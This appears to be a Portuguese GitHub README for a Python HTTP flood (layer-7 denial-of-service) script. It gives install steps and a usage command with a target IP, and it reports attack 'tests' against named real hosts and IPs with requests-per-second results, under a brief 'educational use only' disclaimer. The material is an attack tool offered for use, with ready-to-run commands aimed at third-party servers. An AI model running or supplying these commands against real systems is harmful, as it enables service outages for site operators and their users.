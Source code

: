# Python HTTP Flood [![Views](https://hits.sh/github.com/e43bpyfloodpt/hits.svg)](https://github.com/e43b/Kemono-and-Coomer-Downloader/)

Este é um simples script de HTTP Flood desenvolvido em Python.

## Instalação
```sh
git clone https://github.com/e43b/Python-HTTP-Flood/
cd Python-HTTP-Flood
pip install -r requirements.txt  
```

## Uso 
```sh
python main.py <alvo> <GET/POST> <threads>
Exemplo: python main.py http://51.159.30.249 POST 1500
```

**Nota: Este script deve ser usado apenas para fins educacionais. Não é recomendado ou ético usar este script em sites sem permissão.**

## Configuração da Máquina e Testes
O script foi executado em uma máquina virtual com as seguintes especificações:
- CPU: 1 núcleo
- RAM: 2GB
- Velocidade de Internet: Download: 378.87 Mbit/s, Upload: 48.47 Mbit/s (medido com speedtest-cli)

## Configuração de Testes
Os testes foram realizados em diferentes sites para avaliar o desempenho na camada 7 (L7 Non Protected e L7 Non Protected SSL).

### Testes na Prática com Método POST
#### Site: https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142post.png)
Comando: `python main.py http://142.171.195.145/HIT POST 500`
- Requisições por segundo:
  - Máxima: 1500
  - Média: 1000

#### Site: https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecpost.png)
Comando: `python main.py https://nodec.mediathektv.com POST 700`
- Requisições por segundo:
  - Máxima: 2800
  - Média: 1500

### Testes na Prática com Método GET
#### Site: https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142get.png)
Comando: `python main.py http://142.171.195.145/HIT GET 500`
- Requisições por segundo:
  - Máxima: 3000
  - Média: 1000

#### Site: https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecget.png)
Comando: `python main.py https://nodec.mediathektv.com GET 700`
- Requisições por segundo:
  - Máxima: 2200
  - Média: 1500

## Autor
O criador desta ferramenta é [E43b](https://github.com/e43b/).

- **Discord:** [Servidor](https://discord.gg/CsBMMXBz7t)
- **Doação:** [Link para doação](https://oxapay.com/donate/40874860)
